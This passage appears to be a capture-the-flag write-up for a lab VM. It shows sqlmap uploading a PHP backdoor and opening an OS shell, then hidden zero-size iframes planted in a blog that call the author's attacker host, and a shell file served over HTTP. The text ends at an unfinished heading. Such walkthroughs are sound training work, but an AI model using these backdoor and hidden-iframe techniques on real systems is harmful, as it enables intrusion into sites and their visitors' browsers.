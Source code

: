```
[10:39:14] [INFO] the remote file '/var/www/html/tmpudivn.php' is larger (709 B) than the local file '/tmp/sqlmapCwqEvW4204/tmpoAKGSb' (705B)
[10:39:14] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://192.168.110.151:80/tmpudivn.php
[10:39:15] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://192.168.110.151:80/tmpbiboe.php
[10:39:15] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] 
command standard output:    'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
```

OK, so now we have RCE. This was patched quickly, and is an unintedned route.

## Doing it the correct way

After a bit of a nudge from mrB3n, he advised me that this VM used a client side attack, so Thanks to him for advising me on this part, I'll hold my hnds up and say it's not something I have done before.

Firstly, we set up using the blog to register and hid an iframe in thisi:

```
<iframe src="http://192.168.110.128/test.html" width="0" height="0"></iframe>
```

Will make it request my kali box on prt 80 and the test.html file which contained only:

```
<body>
w00t!
</body>
```

Which gave an interesting response in my apache log::

```
192.168.110.151 - - [25/Jun/2016:16:39:49 +0100] "GET /test.html HTTP/1.1" 200 281 "http://192.168.110.151/blog/members.html" "Mozilla/5.0 (X11; Linux x86_64; rv:15.0) Gecko/20100101 Firefox/15.0"
```

## Legacy code is bad

We now know it's using a vulnerable firefox buld so can perhaps find an exploit for it

root@kali:~# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.110.151 - - [25/Jun/2016 10:52:58] "GET /knightmare_shell.php HTTP/1.1" 200 -

<iframe src="192.168.110.128/test.html" height="0" width="0">

<iframe src="http://192.168.110.128:8080/sneaky" width="0" height="0"></iframe>


## Put metapslot info in
